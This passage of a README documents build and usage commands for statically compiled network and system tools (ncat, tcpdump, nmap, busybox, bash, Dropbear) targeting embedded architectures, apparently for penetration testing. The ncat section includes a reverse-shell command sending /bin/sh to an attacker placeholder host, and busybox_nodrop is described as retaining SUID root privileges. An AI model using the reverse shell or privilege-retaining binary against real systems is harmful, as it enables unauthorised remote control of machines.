 ```bash
./build ncat --arch arm32v5le
./build ncat-ssl --arch arm32v5le  # With SSL support

# Simple reverse shell
./output/arm32v5le/ncat attacker_ip 4444 -e /bin/sh
```

#### tcpdump
**Network packet analyzer** - Capture and analyze network traffic.

```bash
./build tcpdump --arch powerpcle
./output/powerpcle/tcpdump -i eth0 host target_ip
```

#### nmap
**Network exploration tool** - Port scanning and network discovery.

```bash
./build nmap --arch aarch64
./output/aarch64/nmap -sS target_network/24
```

### System Tools

#### busybox / busybox_nodrop
**Multi-call binary** - Over 300 Unix utilities in one binary.

```bash
./build busybox --arch mips32be
./output/mips32be/busybox ls -la
./output/mips32be/busybox --install -s /tmp/bin/  # Install applets
```

**busybox_nodrop** - Special variant that maintains SUID privileges when run as SUID root.

#### bash
**Bourne Again Shell** - Full-featured shell with scripting support.

```bash
./build bash --arch or1k
./output/or1k/bash --version
```

### SSH Tools (Dropbear)

#### dropbear / dbclient / scp / dropbearkey
**Lightweight SSH implementation** - SSH server, client, and utilities.

```bash
./build dropbear --arch armv6

# SSH server
./output/armv6/dropbear -F -E -p 22

# SSH client  
./output/armv6/dbclient user@host

# File transfer
./output/armv6/scp file user@host:/path/

# Key generation
./output/armv6/dropbearkey -t rsa -f host_key -s 2048
```
